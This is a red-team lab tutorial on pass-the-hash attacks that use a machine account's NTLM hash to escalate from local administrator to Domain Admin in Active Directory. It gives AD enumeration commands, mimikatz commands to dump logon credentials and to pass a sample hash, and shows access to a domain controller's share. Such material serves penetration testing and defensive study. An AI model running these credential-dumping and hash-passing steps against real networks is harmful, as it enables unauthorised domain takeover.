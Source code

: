 # Pass the Hash with Machine$ Accounts

This lab looks at leveraging machine account NTLM password hashes or more specifically - how they can be used in pass the hash attacks to gain additional privileges, depending on which groups the machine is a member of \(ideally administrators/domain administrators\).

This labs is based on an assumption that you have gained local administrator privileges on a workstation \(machine\), let's call it `WS01$`. Since you have done your AD enumeration, you notice that the WS01$ is a member of `Domain Admins` group - congratulations, you are one step away from escalating from local admin to Domain Admin and a full domain compromise.

## Execution

Finding domain computers that are members of interesting groups:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
Get-ADComputer -Filter * -Properties MemberOf | ? {$_.MemberOf}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2018-12-29-16-03-19.png)

Of course, the same can be observed by simply checking the Domain Admins net group:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
net group "domain admins" /domain
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2018-12-29-17-22-59.png)

or administrators group \(not applicable to our lab, but showing as a sidenote\):

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
net localgroup administrators /domain
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2018-12-29-17-24-07.png)

In AD, the highlighted part can be seen here:

![](../../.gitbook/assets/screenshot-from-2018-12-29-16-36-17.png)

Extracting the machine `WS01$` NTLM hash after the admin privileges were gained on the system:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
sekurlsa::logonPasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2018-12-29-15-29-17.png)

Let's check that our current compromised user `ws01\mantvydas` \(local admin on ws01\) cannot access the domain controller DC01 just yet:

![](../../.gitbook/assets/screenshot-from-2018-12-29-15-47-10.png)

Since WS01$ machine is a member of `Domain Admins` and we have extracted the machine's hash with mimikatz, we can use mimikatz to pass that hash and effectively elevate our access to Domain Admin:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
sekurlsa::pth /user:ws01$ /domain:offense.local /ntlm:ab53503b0f35c9883ff89b75527d5861
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2018-12-29-15-52-35.png)

Below shows how the machine's hash is passed, an elevated prompt is provided to the attacker, who can then access the domain controller with dir `\\dc01\c$`:

![](../../.gitbook/assets/peek-2018-12-29-15-49.gif)

## References

{% embed url="https://blog.secarma.co.uk/labs/using-machine-account-passwords-during-an-engagement" %}

{% embed url="https://www.c0d3xpl0it.com/2018/05/machine-accounts-in-pentest-engagement.html?m=1" %}

